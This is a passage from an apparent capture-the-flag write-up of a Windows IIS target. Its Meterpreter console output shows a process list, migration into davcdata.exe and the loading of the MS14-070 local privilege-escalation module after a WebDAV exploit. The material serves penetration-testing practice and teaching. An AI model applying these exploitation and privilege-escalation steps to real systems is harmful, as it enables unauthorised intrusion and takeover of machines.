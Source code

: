 ```console
```

Wut. I haven't migrated yet, so I tried migrating to a new process to see if I have better luck.  While looking to migrate I was disconnected.  So I re-executed my initial payload on the machine and now my SESSION is 2.  Let's migrate.

```console
meterpreter > ps

Process List
============

 PID   PPID  Name               Arch  Session  User                          Path
 ---   ----  ----               ----  -------  ----                          ----
 0     0     [System Process]
 4     0     System
 272   4     smss.exe
 324   272   csrss.exe
 348   272   winlogon.exe
 396   348   services.exe
 408   348   lsass.exe
 600   396   svchost.exe
 684   396   svchost.exe
 740   396   svchost.exe
 768   396   svchost.exe
 804   396   svchost.exe
 940   396   spoolsv.exe
 968   396   msdtc.exe
 1080  396   cisvc.exe
 1124  396   svchost.exe
 1184  396   inetinfo.exe
 1220  396   svchost.exe
 1332  396   VGAuthService.exe
 1412  396   vmtoolsd.exe
 1460  396   svchost.exe
 1636  396   alg.exe
 1692  396   svchost.exe
 1776  600   wmiprvse.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\wbem\wmiprvse.exe
 1916  396   dllhost.exe
 2192  1460  w3wp.exe           x86   0        NT AUTHORITY\NETWORK SERVICE  c:\windows\system32\inetsrv\w3wp.exe
 2260  600   davcdata.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\inetsrv\davcdata.exe
 2308  2192  rundll32.exe       x86   0                                      C:\WINDOWS\system32\rundll32.exe
 2492  600   wmiprvse.exe

meterpreter > migrate 2260
[*] Migrating from 2308 to 2260...
[*] Migration completed successfully.
meterpreter > background
[*] Backgrounding session 2...

msf5 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > use exploit/windows/local/ms14_070_tcpip_ioctl
msf5 exploit(windows/local/ms14_070_tcpip_ioctl) > show options

Module options (exploit/windows/local/ms14_070_tcpip_ioctl):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  1                yes       The session to run this module on.

```